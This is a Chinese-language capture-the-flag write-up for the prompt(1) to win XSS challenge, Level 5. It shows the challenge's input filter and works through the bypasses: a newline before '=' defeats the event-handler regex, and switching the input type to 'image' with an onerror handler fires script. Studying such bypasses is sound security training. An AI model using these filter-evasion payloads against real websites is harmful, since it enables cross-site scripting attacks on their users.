 ## [[prompt(1) to win](http://prompt.ml)] [[Level 5 - Input Type](http://prompt.ml/5)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-5-input-type/)]

------

## 题目

```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}
```

## 解题报告

由于标签闭合 `>` 被过滤了，所以 js 只能通过标签属性触发。

其实 `type="text"` 就是个提示，input 标签可根据 type 改变自身为不同的元素类型，从而可以使用该类型的的属性触发 js 。

题目设定的默认类型是 text ，即输入框，这种类型可以触发 js 的属性只有 onfocus ，但是 focus 被过滤了，所以需要使用其他类型。

[查表](http://www.w3school.com.cn/tags/att_input_type.asp) 知道 input 的可用类型如下：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2005%20-%20Input%20Type/imgs/01.png)

**从中发现比较容易利用的类型是 button 和 image** 。


------------

假如要利用 button 按钮类型，可以通过 onclick 触发 js，期望结果是这样的 ：

`<input value="exp" type="button" onclick="prompt(1)" type="text">`

亦即 input 为 ： `exp" type="button" onclick="prompt(1)`

但是正则 `on.+?=` 过滤了 `onclick=`，不过这种过滤可以通过换行绕过，即构造 payload 为：

```html
exp" type="button" onclick
="prompt(1)
```

不过似乎是 BUG ，构造的按钮无法点击，导致无法触发 js。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2005%20-%20Input%20Type/imgs/02.png)

------------

这样只能换个思路，利用 image 图片类型，通过 onerror 触发 js ，构造 payload 如下：

```html
exp" type="image" src=0 onerror
="prompt(1)
```

成功完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2005%20-%20Input%20Type/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

